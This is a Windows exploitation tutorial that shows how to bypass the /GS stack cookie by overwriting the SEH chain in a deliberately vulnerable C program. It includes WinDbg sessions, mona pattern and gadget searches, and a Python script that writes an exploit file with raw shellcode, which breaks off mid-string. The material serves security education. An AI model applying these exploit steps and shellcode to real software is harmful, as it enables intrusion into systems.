

If you haven’t already, read the previous article (Exploitme1) and then come back here.
We’ll use the same code as before:
#include <cstdio>
int main() {
char name[32];
printf("Enter your name and press ENTER\n");
scanf("%s", name);
printf("Hi, %s!\n", name);
return 0;
}
This time, however, we’ll configure things differently.
In VS 2013, we’ll disable DEP by going to Project→properties, and modifying the configuration for Release as follows:
- Configuration Properties
- Linker
- Advanced
- Data Execution Prevention (DEP): No (/NXCOMPAT:NO)
- Advanced
- Linker
Make sure that we have
- Configuration Properties
- C/C++
- Code Generation
- Security Check: Enable Security Check (/GS)
- Code Generation
- C/C++
If you still have the file c:\name.dat used for exploitme1.exe, and try to run exploitme2.exe, you’ll get a crash and no calculator. Why?
Here’s the corresponding assembly code:
int main() {
00101000 55 push ebp
00101001 8B EC mov ebp,esp
00101003 83 EC 24 sub esp,24h
00101006 A1 00 30 10 00 mov eax,dword ptr ds:[00103000h]
0010100B 33 C5 xor eax,ebp
0010100D 89 45 FC mov dword ptr [ebp-4],eax
char name[32];
printf("Enter your name and press ENTER\n");
00101010 68 00 21 10 00 push 102100h
00101015 FF 15 90 20 10 00 call dword ptr ds:[102090h]
scanf("%s", name);
0010101B 8D 45 DC lea eax,[name]
0010101E 50 push eax
0010101F 68 24 21 10 00 push 102124h
00101024 FF 15 94 20 10 00 call dword ptr ds:[102094h]
printf("Hi, %s!\n", name);
0010102A 8D 45 DC lea eax,[name]
0010102D 50 push eax
0010102E 68 28 21 10 00 push 102128h
00101033 FF 15 90 20 10 00 call dword ptr ds:[102090h]
return 0;
}
00101039 8B 4D FC mov ecx,dword ptr [ebp-4]
0010103C 83 C4 14 add esp,14h
0010103F 33 CD xor ecx,ebp
00101041 33 C0 xor eax,eax
00101043 E8 04 00 00 00 call __security_check_cookie (010104Ch)
00101048 8B E5 mov esp,ebp
0010104A 5D pop ebp
0010104B C3 retHere’s the old code for comparison:
int main() {
01391000 55 push ebp
01391001 8B EC mov ebp,esp
01391003 83 EC 20 sub esp,20h
char name[32];
printf("Enter your name and press ENTER\n");
01391006 68 00 21 39 01 push 1392100h
0139100B FF 15 8C 20 39 01 call dword ptr ds:[139208Ch]
scanf("%s", name);
01391011 8D 45 E0 lea eax,[name]
01391014 50 push eax
01391015 68 24 21 39 01 push 1392124h
0139101A FF 15 94 20 39 01 call dword ptr ds:[1392094h]
printf("Hi, %s!\n", name);
01391020 8D 45 E0 lea eax,[name]
01391023 50 push eax
01391024 68 28 21 39 01 push 1392128h
01391029 FF 15 8C 20 39 01 call dword ptr ds:[139208Ch]
0139102F 83 C4 14 add esp,14h
return 0;
01391032 33 C0 xor eax,eax
}
01391034 8B E5 mov esp,ebp
01391036 5D pop ebp
01391037 C3 retLet’s omit the uninteresting bits.
Old code:
int main() {
01391000 55 push ebp
01391001 8B EC mov ebp,esp
01391003 83 EC 20 sub esp,20h
.
.
.
01391034 8B E5 mov esp,ebp
01391036 5D pop ebp
01391037 C3 retNew code:
int main() {
00101000 55 push ebp
00101001 8B EC mov ebp,esp
00101003 83 EC 24 sub esp,24h
00101006 A1 00 30 10 00 mov eax,dword ptr ds:[00103000h]
0010100B 33 C5 xor eax,ebp
0010100D 89 45 FC mov dword ptr [ebp-4],eax
.
.
.
00101039 8B 4D FC mov ecx,dword ptr [ebp-4]
0010103C 83 C4 14 add esp,14h
0010103F 33 CD xor ecx,ebp
00101041 33 C0 xor eax,eax
00101043 E8 04 00 00 00 call __security_check_cookie (010104Ch)
00101048 8B E5 mov esp,ebp
0010104A 5D pop ebp
0010104B C3 retAfter the prolog of the new code, the stack should look like this:
esp --> name[0..3]
name[4..7]
.
.
.
name[28..31]
ebp-4 --> cookie
ebp --> saved ebp
ret eip
.
.
.The idea is that the prolog sets the cookie and the epilog checks that the cookie isn’t changed. If the cookie was changed, the epilog crashes the program before the ret instruction is executed. Note the position of the cookie: if we overflow name, we overwrite both the cookie and ret eip. The epilog crashes the program before we can take control of the execution flow.
Let’s look at the prolog:
00101006 A1 00 30 10 00 mov eax,dword ptr ds:[00103000h] 0010100B 33 C5 xor eax,ebp 0010100D 89 45 FC mov dword ptr [ebp-4],eax
First the cookie is read from ds:[00103000h] and then it’s xored with EBP before it’s saved in [ebp-4]. This way, the cookie depends on EBP meaning that nested calls have different cookies. Of course, the cookie in ds:[00103000h] is random and was computed at runtime during the initialization.
Now that we understand the problem, we can go back to the fread() version of our code, which is easier (in a sense) to exploit:
#include <cstdio>
int main() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
name[bytes] = '\0';
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}
Since we can’t take control of EIP through ret eip, we’ll try to modify the SEH chain by overwriting it. Lucky for us, the chain is on the stack. See the Structure Exception Handling (SEH) article if you don’t remember the specifics.
Open exploitme2.exe in WinDbg, put a breakpoint on main with
bp exploitme2!main
and then let the program run by pressing F5 (go).
When the execution stops (you should also see the source code) have a look at the stack and the SEH chain:
0:000> dd esp
0038fb20 011814d9 00000001 00625088 00615710
0038fb30 bd0c3ff1 00000000 00000000 7efde000
0038fb40 00000000 0038fb30 00000001 0038fb98
0038fb50 01181969 bc2ce695 00000000 0038fb68
0038fb60 75dd338a 7efde000 0038fba8 77c09f72
0038fb70 7efde000 77ebad68 00000000 00000000
0038fb80 7efde000 00000000 00000000 00000000
0038fb90 0038fb74 00000000 ffffffff 77c471f5
0:000> !exchain
0038fb4c: exploitme2!_except_handler4+0 (01181969)
CRT scope 0, filter: exploitme2!__tmainCRTStartup+115 (011814f1)
func: exploitme2!__tmainCRTStartup+129 (01181505)
0038fb98: ntdll!WinSqmSetIfMaxDWORD+31 (77c471f5)Remember that SEH nodes are 8-byte long and have this form:
<ptr to next SEH node in list> <ptr to handler>
We can see that the first node is at address 0x38fb4c (i.e. esp+0x2c) and contains
0038fb98 <-- next SEH node 01181969 <-- handler (exploitme2!_except_handler4)
The next and last SEH node is at 0x38fb98 (i.e. esp+0x78) and contains
ffffffff <-- next SEH node (none - this is the last node) 77c471f5 <-- handler (ntdll!WinSqmSetIfMaxDWORD+31)
Now put 100 ‘a‘s in c:\name.dat and step over the code (F10) until you have executed the fread() function. Let’s examine the SEH chain again:
0:000> !exchain 0038fb4c: 61616161 Invalid exception stack at 61616161
As we can see, we managed to overwrite the SEH chain. Now let the program run (F5).
WinDbg will print the following:
STATUS_STACK_BUFFER_OVERRUN encountered (1610.1618): Break instruction exception - code 80000003 (first chance) *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Windows\syswow64\kernel32.dll - eax=00000000 ebx=01182108 ecx=75e1047c edx=0038f4d1 esi=00000000 edi=6d5ee060 eip=75e1025d esp=0038f718 ebp=0038f794 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00000246 kernel32!GetProfileStringW+0x12cc1: 75e1025d cc int 3
This might mean that the epilog of main() detected that the cookie was modified and stopped us before we could do anything, but, actually, this security violation is due to some bounds checking related to the assignment after fread:
#include <cstdio>
int main() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
name[bytes] = '\0'; <-------------------------
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}
Here’s the bounds checking:
name[bytes] = '\0'; 008B107A 83 FE 20 cmp esi,20h ; esi = bytes 008B107D 73 30 jae main+0AFh (08B10AFh) 008B107F 57 push edi 008B1080 C6 44 35 DC 00 mov byte ptr name[esi],0 . . . 008B10AF E8 48 01 00 00 call __report_rangecheckfailure (08B11FCh)
In this case the epilog is never reached because of the bounds checking but the concept is the same. We overwrote the SEH chain but no exception was generated so the SEH chain wasn’t even used. We need to raise an exception before the bounds checking is performed (or the epilog of main() is reached).
Let’s do an experiment: let’s see if an exception would call the handler specified on the SEH chain. Modify the code as follows:
#include <cstdio>
int main() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
fread(name, 1, bytes, f);
name[bytes] = bytes / 0; // '\0'; !!! divide by 0 !!!
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}Note that we added a division by 0 right after the fread() function. This should generate an exception and call the first handler of the SEH chain.
Compile the code, reopen it in WinDbg and hit F5 (go). This is what happens:
(177c.12f4): Integer divide-by-zero - code c0000094 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. *** WARNING: Unable to verify checksum for exploitme2.exe eax=00000064 ebx=6d5ee060 ecx=00000000 edx=00000000 esi=00000001 edi=00000064 eip=012f107a esp=002cfbd4 ebp=002cfc2c iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 exploitme2!main+0x7a: 012f107a f7f9 idiv eax,ecx
As we can see, WinDbg caught the exception before it could be seen by the program. Hit F5 (go) again to pass the exception to the program. Here’s what we see:
(177c.12f4): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=61616161 edx=77c2b4ad esi=00000000 edi=00000000 eip=61616161 esp=002cf638 ebp=002cf658 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 61616161 ?? ???
We can see that EIP = 0x61616161. The only explanation is that the handler in the modified SEH chain was called!
Now we must find a way to raise an exception on our own before the bounds checking is performed (or the cookie is checked by the epilog of the main() function). First of all, we’ll remove the exception and change our code a little:
#include <cstdio>
int main() {
char name[32];
printf("Reading name from file...\n");
FILE *f = fopen("c:\\name.dat", "rb");
if (!f)
return -1;
fseek(f, 0L, SEEK_END);
long bytes = ftell(f);
fseek(f, 0L, SEEK_SET);
int pos = 0;
while (pos < bytes) {
int len = bytes - pos > 200 ? 200 : bytes - pos;
fread(name + pos, 1, len, f);
pos += len;
}
name[bytes] = '\0';
fclose(f);
printf("Hi, %s!\n", name);
return 0;
}We decided to read the file in blocks of 200 bytes because fread() may fail if it’s asked to read too many bytes. This way we can have a long file.
The stack is not infinite so if we keep writing to it till the end (highest address) an access violation will be raised. Let’s run Python’s IDLE and try with 1000 “a“s:
with open('c:\\name.dat', 'wb') as f:
f.write('a'*1000)
By running exploitme2.exe in WinDbg it’s easy to verify that 1000 “a“s aren’t enough. Let’s try with 2000:
with open('c:\\name.dat', 'wb') as f:
f.write('a'*2000)
It doesn’t work either. Finally, with 10000 “a“s, we get this:
(17d4.1244): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Windows\SysWOW64\MSVCR120.dll - eax=00816808 ebx=000000c8 ecx=00000030 edx=000000c8 esi=008167d8 edi=003c0000 eip=6d51f20c esp=003bfb68 ebp=003bfb88 iopl=0 nv up ei ng nz na pe cy cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010287 MSVCR120!wcslen+0x19: 6d51f20c f3a4 rep movs byte ptr es:[edi],byte ptr [esi]
After pressing F5 (go) we get:
(17d4.1244): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=61616161 edx=77c2b4ad esi=00000000 edi=00000000 eip=61616161 esp=003bf5cc ebp=003bf5ec iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 61616161 ?? ???
This is what we wanted: EIP = 0x61616161. We know that our “a“s overwrote the handler address of a SEH node, but which 4 “a“s exactly? In other words, at what offset in the file should we put the address we want to redirect the execution to?
An easy way to do this is to use a special pattern instead of simple “a“s. This pattern is designed so that given 4 consecutive bytes of the pattern we can tell immediately at which offset of the pattern these 4 bytes are located.
mona (article) can help us with this:
0:000> !py mona pattern_create 10000
Hold on...
[+] Command used:
!py mona.py pattern_create 10000
Creating cyclic pattern of 10000 bytes
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)
[+] Preparing output file 'pattern.txt'
- (Re)setting logfile pattern.txt
Note: don't copy this pattern from the log window, it might be truncated !
It's better to open pattern.txt and copy the pattern from the file
[+] This mona.py action took 0:00:00With a little bit of Python we can write the pattern to c:\name.dat:
with open('c:\\name.dat', 'wb') as f:
pattern = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)'
f.write(pattern)
Note that I snipped the pattern because it was too long to show here.
We restart exploitme2.exe in WinDbg, we hit F5 (go) twice and we get:
(11e0.11e8): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=64413963 edx=77c2b4ad esi=00000000 edi=00000000 eip=64413963 esp=0042f310 ebp=0042f330 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 64413963 ?? ???
We can see that EIP = 0x64413963. Let’s see at which offset of the pattern it’s located. Remeber that Intel CPUs are little endian so 0x64413963 = “\x63\x39\x41\x64” = “c9Ad”. Let’s use mona to determine the offset:
0:000> !py mona pattern_offset 64413963 Hold on... [+] Command used: !py mona.py pattern_offset 64413963 Looking for c9Ad in pattern of 500000 bytes - Pattern c9Ad (0x64413963) found in cyclic pattern at position 88 Looking for c9Ad in pattern of 500000 bytes Looking for dA9c in pattern of 500000 bytes - Pattern dA9c not found in cyclic pattern (uppercase) Looking for c9Ad in pattern of 500000 bytes Looking for dA9c in pattern of 500000 bytes - Pattern dA9c not found in cyclic pattern (lowercase) [+] This mona.py action took 0:00:00.172000
The offset is 88. Let’s verify that that’s the correct offset with the following Python script:
with open('c:\\name.dat', 'wb') as f:
handler = 'bbbb'
f.write('a'*88 + handler + 'c'*(10000-88-len(handler)))
This time WinDbg outputs this:
(1b0c.1bf4): Access violation - code c0000005 (first chance) First chance exceptions are reported before any exception handling. This exception may be expected and handled. eax=00000000 ebx=00000000 ecx=62626262 edx=77c2b4ad esi=00000000 edi=00000000 eip=62626262 esp=002af490 ebp=002af4b0 iopl=0 nv up ei pl zr na pe nc cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010246 62626262 ?? ???
Since 0x62626262 = “bbbb”, this is exactly what we wanted.
Now that we know where to put our address in the file, we need to decide which address to use. In WinDbg click on View→Memory and under “Virtual:” type @esp to see the part of stack pointed to by ESP. In my case, ESP = 0x2af490 and our “b“s are at @esp+6d4.
Let’s restart exploitme2.exe to see if 6d4 is a constant. Enter again @esp+6d4 under “Virtual:” in the Memory window and you should see that it still points to our 4 “b“s. We can also see that ESP is always different, even though the offset 6d4 doesn’t change.
So we could put our shellcode right after the 4 “b“s and replace those “b“s with the address of a piece of code like this:
ADD ESP, 6d8
JMP ESP
Note that we used 6d8, i.e. 6d4+4 to skip the “b“s and jump to the shellcode which we’ll put in place of our “c“s. Of course, ADD ESP, 6e0 or similar would do as well. Unfortunately, it’s not easy to find such code, but there’s an easier way.
Restart exploitme2.exe, hit F5 (go) twice and have another look at the stack:
0:000> dd esp 002df45c 77c2b499 002df544 002dfb2c 002df594 002df46c 002df518 002dfa84 77c2b4ad 002dfb2c 002df47c 002df52c 77c2b46b 002df544 002dfb2c 002df48c 002df594 002df518 62626262 00000000 002df49c 002df544 002dfb2c 77c2b40e 002df544 002df4ac 002dfb2c 002df594 002df518 62626262 002df4bc 002e1000 002df544 00636948 00000000 002df4cc 00000000 00000000 00000000 00000000
The dword at esp+8 looks interesting. If we have a look at that address we see the following:
0:000> db poi(esp+8) 002dfb2c 61 61 61 61 62 62 62 62-63 63 63 63 63 63 63 63 aaaabbbbcccccccc 002dfb3c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb4c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb5c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb6c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb7c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb8c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc 002dfb9c 63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63 cccccccccccccccc
It seems that 0x2dfb2c points to the 4 “a“s preceding our “b“s. Remember that “bbbb” overwrote the “handler” field of a SEH node, so 0x2dfb2c must point to the “next SEH node” field of the same SEH node. Let’s verify this:
0:000> !exchain 002df470: ntdll!ExecuteHandler2+3a (77c2b4ad) 002dfa84: MSVCR120!_ValidateRead+439 (6d52a0d5) 002dfb2c: 62626262 Invalid exception stack at 61616161
It seems that we overwrote the third SEH node:
0:000> dt _EXCEPTION_REGISTRATION_RECORD 002dfb2c ntdll!_EXCEPTION_REGISTRATION_RECORD +0x000 Next : 0x61616161 _EXCEPTION_REGISTRATION_RECORD +0x004 Handler : 0x62626262 _EXCEPTION_DISPOSITION +62626262
First of all, make sure that esp+8 always contain the right address by restarting the process and trying again. After having verified that, we need to find something like this:
POP reg32 POP reg32 RET
The idea is to put the address of such a piece of code in place of our 4 “b“s. When executed, this code will increment ESP by 8 (through the two POPs) and then extract the value pointed to by ESP and jump to it. This does exactly what we want, i.e. it’ll jump to the 4 “a“s right before our “b“s. To skip the “b“s and jump to our shellcode (our “c“s), we need to put a jmp right before the “b“s.
The opcode of a JMP short is
EB XX
where XX is a signed byte. Let’s add a label for convenience:
here: EB XX
That opcode jumps to here+2+XX. For example,
EB 00 there:
jumps right after the jump itself, i.e. to there.
This is what we want:
90 is the opcode for a NOP (no operation – it does nothing) but we can use whatever we want since those two bytes will by skipped.
{kind=link}
Now let’s find the address of pop/pop/ret in kernel32.dll:
0:000> !py mona findwild -s "pop r32#pop r32#ret" -m kernel32.dll
Hold on...
[+] Command used:
!py mona.py findwild -s pop r32#pop r32#ret -m kernel32.dll
---------- Mona command started on 2015-03-18 20:33:46 (v2.0, rev 554) ----------
[+] Processing arguments and criteria
- Pointer access level : X
- Only querying modules kernel32.dll
[+] Type of search: str
[+] Searching for matches up to 8 instructions deep
[+] Generating module info table, hang on...
- Processing modules
- Done. Let's rock 'n roll.
[+] Started search (8 start patterns)
[+] Searching startpattern between 0x75dc0000 and 0x75ed0000
[+] Preparing output file 'findwild.txt'
- (Re)setting logfile findwild.txt
[+] Writing results to findwild.txt
- Number of pointers of type 'pop edi # pop ebp # retn 24h' : 1
- Number of pointers of type 'pop esi # pop ebx # retn' : 2
- Number of pointers of type 'pop ebx # pop ebp # retn 14h' : 4
- Number of pointers of type 'pop ebx # pop ebp # retn 10h' : 14
- Number of pointers of type 'pop edi # pop esi # retn' : 2
- Number of pointers of type 'pop edi # pop ebp # retn 8' : 13
- Number of pointers of type 'pop eax # pop ebp # retn 1ch' : 2
- Number of pointers of type 'pop ecx # pop ebx # retn 4' : 1
- Number of pointers of type 'pop esi # pop ebp # retn' : 1
- Number of pointers of type 'pop ebx # pop ebp # retn 1ch' : 4
- Number of pointers of type 'pop eax # pop ebp # retn 0ch' : 8
- Number of pointers of type 'pop edi # pop ebp # retn 1ch' : 2
- Number of pointers of type 'pop eax # pop ebp # retn 20h' : 2
- Number of pointers of type 'pop esi # pop ebp # retn 0ch' : 49
- Number of pointers of type 'pop eax # pop ebp # retn' : 2
- Number of pointers of type 'pop eax # pop ebp # retn 4' : 3
- Number of pointers of type 'pop esi # pop ebp # retn 20h' : 2
- Number of pointers of type 'pop ebx # pop ebp # retn 0ch' : 27
- Number of pointers of type 'pop esi # pop ebp # retn 24h' : 1
- Number of pointers of type 'pop eax # pop ebp # retn 18h' : 3
- Number of pointers of type 'pop edi # pop ebp # retn 0ch' : 11
- Number of pointers of type 'pop esi # pop ebp # retn 10h' : 15
- Number of pointers of type 'pop esi # pop ebp # retn 18h' : 10
- Number of pointers of type 'pop esi # pop ebp # retn 14h' : 11
- Number of pointers of type 'pop edi # pop ebp # retn 10h' : 6
- Number of pointers of type 'pop eax # pop ebp # retn 8' : 5
- Number of pointers of type 'pop ebx # pop ebp # retn 4' : 11
- Number of pointers of type 'pop esi # pop ebp # retn 4' : 70
- Number of pointers of type 'pop esi # pop ebp # retn 8' : 62
- Number of pointers of type 'pop edx # pop eax # retn' : 1
- Number of pointers of type 'pop ebx # pop ebp # retn 8' : 26
- Number of pointers of type 'pop ebx # pop ebp # retn 18h' : 6
- Number of pointers of type 'pop ebx # pop ebp # retn 20h' : 2
- Number of pointers of type 'pop eax # pop ebp # retn 10h' : 3
- Number of pointers of type 'pop eax # pop ebp # retn 14h' : 3
- Number of pointers of type 'pop ebx # pop ebp # retn' : 4
- Number of pointers of type 'pop edi # pop ebp # retn 14h' : 2
- Number of pointers of type 'pop edi # pop ebp # retn 4' : 5
[+] Results :
0x75dd4e18 | 0x75dd4e18 (b+0x00014e18) : pop edi # pop ebp # retn 24h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfd75d | 0x75dfd75d (b+0x0003d75d) : pop esi # pop ebx # retn | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfd916 | 0x75dfd916 (b+0x0003d916) : pop esi # pop ebx # retn | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dd4f7c | 0x75dd4f7c (b+0x00014f7c) : pop ebx # pop ebp # retn 14h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75ddf840 | 0x75ddf840 (b+0x0001f840) : pop ebx # pop ebp # retn 14h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfc1ca | 0x75dfc1ca (b+0x0003c1ca) : pop ebx # pop ebp # retn 14h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e7a327 | 0x75e7a327 (b+0x000ba327) : pop ebx # pop ebp # retn 14h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75de1267 | 0x75de1267 (b+0x00021267) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75defda1 | 0x75defda1 (b+0x0002fda1) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfb33c | 0x75dfb33c (b+0x0003b33c) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfbf8a | 0x75dfbf8a (b+0x0003bf8a) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75dfda42 | 0x75dfda42 (b+0x0003da42) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e45960 | 0x75e45960 (b+0x00085960) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e47b36 | 0x75e47b36 (b+0x00087b36) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e4a53f | 0x75e4a53f (b+0x0008a53f) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e5e294 | 0x75e5e294 (b+0x0009e294) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e65641 | 0x75e65641 (b+0x000a5641) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e6a121 | 0x75e6a121 (b+0x000aa121) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e77bf1 | 0x75e77bf1 (b+0x000b7bf1) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
0x75e7930d | 0x75e7930d (b+0x000b930d) : pop ebx # pop ebp # retn 10h | {PAGE_EXECUTE_READ} [kernel32.dll] ASLR: True, Rebase: False, SafeSEH: True, OS: True, v6.1.7601.18409 (C:\Windows\syswow64\kernel32.dll)
... Please wait while I'm processing all remaining results and writing everything to file...
[+] Done. Only the first 20 pointers are shown here. For more pointers, open findwild.txt...
Found a total of 396 pointers
[+] This mona.py action took 0:00:12.400000Let’s choose the second one:
0x75dfd75d | 0x75dfd75d (b+0x0003d75d) : pop esi # pop ebx # retn
So our schema becomes like this:

{kind=link}
Here’s the Python code to create name.dat:
with open('c:\\name.dat', 'wb') as f:
jmp = '\xeb\x06\x90\x90'
handler = '\x5d\xd7\xdf\x75'
shellcode = ("\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
